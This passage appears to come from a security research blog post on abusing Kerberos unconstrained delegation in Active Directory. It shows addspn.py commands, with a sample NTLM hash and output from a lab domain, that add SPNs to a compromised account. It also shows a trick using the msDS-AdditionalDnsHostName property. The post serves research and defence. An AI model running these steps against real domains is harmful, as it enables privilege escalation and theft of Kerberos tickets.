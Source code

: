 To make sure that victims authenticate to the account with unconstrained delegation and that we can decrypt the tickets, we need to make sure to send their traffic to a hostname of which the SPN is associated with the account we are impersonating. If we have the hostname `attacker.corp.com` and that SPN is not registered to the right account, the attack won't work. The easiest way to do this is if we have control over an account that has privileges to edit attributes of the computer- or useraccount that we compromised, in which case we can just add the SPN to that account using the [addspn.py](https://github.com/dirkjanm/krbrelayx/) utility that is included with krbrelayx:

```
user@localhost:~/adtools$ python addspn.py -u testsegment\\backupadmin -s host/testme.testsegment.local -t w10-outlook.testsegment.local ldap://s2016dc.testsegment.local
Password: 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

If we don't have those privileges, it is a bit more complicated, and for user accounts I haven't found a way to modify the SPNs without having those rights assigned. Computer accounts can by default add their own SPNs via the "Validated write to servicePrincipalName" right, but they can [only write SPNs](https://msdn.microsoft.com/en-us/library/cc223460.aspx) that match their full hostname or SAMAccountName. This would seem like a dead end, but there is a way around this! There is an additional validated write right, which allows computers to update their own `msDS-AdditionalDnsHostName` property, which got introduced in Server 2012 and contains additional hostnames for a computer object. According to [the documentation](https://msdn.microsoft.com/en-us/library/cc223459.aspx), this validated write allows us to add any hostname which has the FQDN of the domain that we are in as a suffix, as long as we have the `Validated-MS-DS-Additional-DNS-Host-Name` validated write right. This right is not assigned by default:

![SELF rights for computer objects](/assets/img/kerberos/validated-writes.png){: .align-center}

While playing with this property however, it turned out that the `Validated-MS-DS-Additional-DNS-Host-Name` validated write right isn't actually needed to update the `msDS-AdditionalDnsHostName` property. The "Validated write to DNS host name", which is enabled for computer objects by default, does also allow us to write to the `msDS-AdditionalDnsHostName` property, and allows us to assign any hostname within the current domain to the computer object, for which SPNs will then automatically be added. With this trick it is possible to add an SPN to our account that we can point to a hostname that is under the control of an attacker:

```
user@localhost:~/adtools$ python addspn.py -u testsegment\\w10-outlook\$ -p aad3b435b51404eeaad3b435b51404ee:7a99efdea0e03b94db2e54c85911af47 -s testme.testsegment.local s2016dc.testsegment.local
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
user@localhost:~/adtools$ python addspn.py -u testsegment\\w10-outlook\$ -p aad3b435b51404eeaad3b435b51404ee:7a99efdea0e03b94db2e54c85911af47 s2016dc.testsegment.local -q
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=W10-OUTLOOK,CN=Computers,DC=testsegment,DC=local - STATUS: Read - READ TIME: 2018-11-18T20:44:33.730958
    dNSHostName: W10-OUTLOOK.testsegment.local
    msDS-AdditionalDnsHostName: TESTME$
                                testme.testsegment.local
    sAMAccountName: W10-OUTLOOK$
```